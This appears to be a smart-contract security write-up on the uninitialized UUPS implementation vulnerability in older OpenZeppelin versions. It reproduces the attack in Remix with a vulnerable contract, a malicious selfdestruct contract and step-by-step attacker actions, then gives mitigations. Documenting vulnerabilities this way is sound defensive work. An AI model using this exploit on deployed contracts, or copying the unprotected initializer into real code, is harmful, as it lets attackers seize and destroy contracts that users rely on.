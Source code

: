## The vuluerabiliry of UUPS

### 0x00 The implement contract without initialize

### Concept

Before the old version of UUPS upgrade mode (v4.6), `Initializable.sol` did not have a `_disableInitializers()` function. This function is generally used in the constructor of the logic contract to initialize the logic contract.

If a logic contract's `initialize()` function has no access control and can be called by anyone, for example:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "@openzeppelin-contracts-upgradeable@v4.2.0/contracts/proxy/utils/UUPSUpgradeable.sol";

contract Logic_1 is OwnableUpgradeable, UUPSUpgradeable {
    uint256 public value;

    function initialize() external {
        __Ownable_init();
    }

    function _authorizeUpgrade(
        address newImplementation
    ) internal override onlyOwner {}

    function setValue(uint256 newValue) external {
        value = newValue;
    }

}
```

Then there will be a serious security vulnerability here. Hackers can call the `initialize()` function and become the `owner` of the logic contract, thereby executing the `upgradeToAndCall(address,bytes)` function in the logic contract and calling the self-destruct function in the malicious contract through `delegatecall newImplement`, causing the logic contract to self-destruct.

*The impact is: the proxy contract will not be able to call the functions of the logic contract, and the contract cannot be upgraded.*

### Reproduction

> **The reason for not choosing Foundry is that due to the version upgrade, the bytecode `opcode:selfdestruct` has been deprecated, and the function has been modified to not have the function of destroying the contract code. Therefore, in order to reproduce this vulnerability, it can only be done through `Remix` and use a lower version of the compiler.**

**Test environment**

- IDE: Remix
- evm-version: shanghai
- solc-version: 0.8.20
- libraries: openzepplin@v4.2.0
- codeLink: [link](https://github.com/LBiyou/Learning-from-Audit-Reports/tree/main/Vulnerability_Reproduction/src/Vulnerability_upgrade/uups/ImplementWithoutInitialize)
- Deployer: 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
- Hacker:  0xAb8483F64d9C6d1EcF9b849Ae677dD3315835cb2

#### **Case 1**

> The hacker becomes the owner of the logic contract and delegatecall the self-destruction function of the malicious contract when executing upgradeToAndCall().

```solidity
// Malicious contract
contract MaliceContract {
    address public constant owner = (
        0x5B38Da6a701c568545dCfcB03FcB875f56beddC4
    );

    function selfKill() external {
        selfdestruct(payable(owner));
    }

    function upgradeTo(address) external {
        assembly {
            sstore(
                0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc,
                0
            )
        }
    }
}
```

**Steps**

- step1：The `deployer` deploys the proxy contract, logic contract, and initializes the proxy contract.

![image-20240919152610143](v_uups/image-20240919152610143.png)

- step2 : Instantiate the proxy contract through `At Address` and test its functionality.(no problem)

![image-20240919152905749](v_uups/image-20240919152905749.png)

- step3: Hackers perform malicious actions.
    - Deploy malicious contracts.
    - Call the `initialize()` function and become the `owner` of the logic contract.
    - Call the `upgradeToAndCall()` function and pass in the address of the malicious contract and the selector of the self-destruct function.

​		![image-20240919153902507](v_uups/image-20240919153902507.png)

- step4: Return to the proxy contract to call the logic contract function and upgrade the contract.

![image-20240919154139258](v_uups/image-20240919154139258.png)

![image-20240919154313341](v_uups/image-20240919154313341.png)

#### Case 2

> If there is a self-destruct function in the logic contract, and this function can only be called by the `owner`, then the hacker can directly become the `owner` by initializing the logic contract and destroy the logic contract.

### Summarize

After version 4.6, the UUPS proxy mode has changed a lot, limiting the upgrade function of the logic contract to be called only by the proxy contract, which avoids the risk of `case 1`. Of course, the safest way is to use a higher version of `openzepplin` and call the `_disableInitializers()` function in the constructor of the logic contract.

> Tips: As Ethereum continues to upgrade, the function of the bytecode `selfdestruct` has been continuously weakened. Now it no longer has the function of deleting the contract code, and can only transfer the `ETH` in the contract, so even if there is `selfdestruct`, it will not be as terrible as before. But everything still needs to be done with caution, and it is better to be safe than sorry.